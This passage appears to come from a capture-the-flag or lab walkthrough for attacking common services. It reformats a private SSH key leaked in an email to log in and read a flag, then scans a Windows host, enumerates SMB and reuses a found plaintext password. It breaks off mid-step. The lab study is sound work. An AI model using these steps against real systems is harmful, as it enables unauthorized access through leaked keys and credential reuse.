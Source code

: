   * From the above email, we can copy and paste the private key for Simon - the issue is that it's all in a single line and not the right format.

  * OpenSSH private keys should have 70 chars per line; we can attempt to [convert this to its original format](https://stackoverflow.com/questions/56333989/convert-single-line-rsa-private-ssh-key-to-multi-line):

    ```sh
    vim simon_id_rsa
    # paste the single-line key from email

    sed -i -e "s/-----BEGIN OPENSSH PRIVATE KEY-----/&\n/" -e "s/-----END OPENSSH PRIVATE KEY-----/\n&/" -e "s/\S\{70\}/&\n/g" simon_id_rsa

    cat simon_id_rsa
    # now it seems to be in the correct format

    chmod 600 simon_id_rsa

    ssh simon@10.129.201.127 -i simon_id_rsa
    
    cat flag.txt
    ```

* Attacking Common Services - Hard:

  * ```nmap``` scan - ```nmap -T4 -p- -A -Pn -v 10.129.203.10```:

    * 135/tcp - msrpc - Microsoft Windows RPC
    * 445/tcp - microsoft-ds
    * 3389/tcp - ms-wbt-server
  
  * Enumerating SMB:

    ```sh
    smbmap -H 10.129.203.10
    # authentication error

    rpcclient -U'%' 10.129.203.10

    enum4linux 10.129.203.10
    ```

  * We have been given usernames 'simon' and 'fiona'; as we had a user 'simon' in the previous task as well, we can attempt cred re-use before going for bruteforce:

    ```sh
    # using the password "8Ns8j1b!23hs4921smHzwn" found in previous task
    
    smbclient -L \\\\10.129.203.10 -U simon
    # this lists the shares
